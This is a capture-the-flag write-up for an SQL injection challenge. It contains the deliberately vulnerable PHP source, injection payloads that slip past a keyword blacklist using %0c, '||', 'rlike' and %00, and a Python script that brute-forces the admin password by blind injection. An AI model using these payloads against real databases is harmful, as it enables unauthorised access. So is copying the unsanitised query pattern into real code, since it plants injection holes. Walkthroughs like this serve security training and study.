 # back_to_sql

This is a 400 pointer challenge I made for the InCTF-National round.

you can get the source code from [here](https://github.com/chsantoshkumar211/CTFs/tree/master/InCTF/back_to_sql)

```php
<?php
error_reporting(0); 
include "./config.php"; 
include "./flag.php"; 
if(isset($_GET['bypass']) && !iconv("UTF-8","UTF-8//IGNORE",$_GET['bypass'])) exit(":P LOL!!");
if(isset($_GET['bypass']) && strlen($_GET['bypass'])>1) exit(":(");
if(preg_match('/ |\n|\r|\t/i', $_GET['bypass'])) exit(":(");
$black_list = "/admin|guest|&|limit|by|as|substr|mid|or|not|ascii|char|union|select|greatest|%00|\"|benchmark|"; 
$black_list .= "=|_|in|<|>|sqlauth| |-|_|\.|\(\)|regexp|and|if|database|where|concat|insert|havin|#|0x|0b|sleep/i"; 
if(preg_match($black_list, $_GET['pass'])) exit(":P");
if(preg_match('/\b=\b/i', $_GET['pass'])) exit("No =");
if(preg_match('/\bregexp\b/i', $_GET['pass'])) exit("No regexp");
if(preg_match('/\blike\b/i', $_GET['pass'])) exit("No like");
$query = "select user from back_to_sql{$_GET['bypass']}where user='guest' and pw='{$_GET[pass]}'"; 
$result = @mysql_fetch_array(mysql_query($query)); 
if($result['user'])
{
	echo "<h1>Hello ".$result['user']."</h1>";
}
$admin_info =  @mysql_fetch_array(mysql_query('select * from back_to_sql where user="admin"')); 
echo "<h2>query : {$query}</h2>";
if(($admin_info['pw']) && $admin_info['pw']===$_GET['pass']) 
{ 
    echo $flag;
} 
highlight_file(__FILE__);
?> 
```

## Solution

#### $_GET['bypass']
So on looking to the source code, we can understand that we have to give a space as "bypass" between "back_to_sql" and "where" and the length of that argument should not be greater that one. So for that, we can use ```%0c```  or  ```%0b```.

#### $_GET['pass']
Coming to "pass" here is the place where we have to inject our query.
we can use ['](single quote). 

```
pass='%0c||%0c1;%00
```

![sql](img/CTF/back_to_sql/sql1.png)

gives us "welcome guest" so we need to query the database in the place of [1] but we can't use [like, regexp and =].

As Einstein says 
```
Look deep into nature, and then you will understand everything better.
```
If you observe this snippet closely you can understand that it's just filtering the work "like" alone but if the word "like" is concatenated with any other character this snippet will not work E.g. ``` rlike ```
```PHP
if(preg_match('/\blike\b/i', $_GET['pass'])) exit("No like");
```

Now we can use rlike to brute force the admin password by querying the database in the place of [1]. So the injection : 
```
pass='%0c||%0c(pw%0crlike%0c'^1');%00
.
pass='%0c||%0c(pw%0crlike%0c'^3');%00
```
![sql](img/CTF/back_to_sql/sql2.png)

for  ```3```  the page responds back with "Hello admin".Hence our injection is working, So let's write a python script to brute force the admin password

```python
import requests
pay='1234567890abcdefghijklmnopqrstuvwxyz'
url = "http://52.66.243.74?bypass=%0c&pass='%0c||%0c(pw%0crlike%0c'^"
password = ""
for i in range(0,21):
    for j in pay:
        re = requests.get(url+password+str(j)+"');%00")
        if "Hello admin" in re.text:
            password = password + str(j)
print(password)
```

This gives us the admin password as : 3c721982f3edf4d95ced

![sql](img/CTF/back_to_sql/sql3.png)

On submittig the password you will get the flag.

flag : ```inctf{byp4s5ing_filt3r5_is_v3ry_3asy!!}```